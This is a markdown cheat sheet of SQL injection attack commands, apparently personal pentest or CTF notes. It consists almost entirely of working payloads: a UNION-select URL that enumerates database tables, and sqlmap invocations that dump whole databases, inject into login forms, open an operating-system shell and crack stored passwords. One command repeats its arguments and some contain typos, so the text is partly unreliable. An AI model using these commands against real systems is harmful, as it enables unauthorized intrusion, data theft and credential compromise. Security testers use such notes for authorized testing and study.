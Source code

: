 ### Sql blind enumberations

```
http://*target-domain*/comment.php?id=738%20union%20select%201,2,3,4,table_name,%206%20FROM%20information_schema.tables

```


### SQLMAP

```
sqlmap -u *target-domain* --crawl=1

```

### Obtain full dump of database

```
sqlmap -u *target-damian*?id=738 --dbms=mysql --dump --threads=5


```

### SQLMAP Post injections

```
./sqlmap.py -r search-test.txt -p tfUPass

sqlmap --url='*target-domain*' --threads=10 --data="username=test*&password=test&submit= Login" --passwords

sqlmap -u http://*target-domain*/index.php --method POST --data="username=abc--&password=def&submit=+Login+" --not-string="Username or Password is invalid"

sqlmap -o -u "http://192.168.56.101:1337/978345210/index.php" --data="username=admin&password=pass&submit=+Login+" --method=POST --level=3 --threads=10 --dbms=MySQL --dump
```
### SQL map interactive shell

```
sqlmap -u http://10.11.8.94/comment.php?id=738 --dbms=mysql --os-shell
```

### SQL map cracking passwords

You may or may not know that sqlmap also has password cracking capabilities. By rerunning the dump on usernames and passwords alone, the tool can attempt to retrieve the clear text password of the machine users, not just the database users. Like so:

```
sqlmap -o -u "192.168.236.135:1337/978345210/index.php" --data="username=admin&password=pass&submit=+Login+" --method=POST --level=3 --threads=10 --dbms=MySQL --users --passwords method=POST --level=3 --threads=10 --dbms=MySQL --dump

```
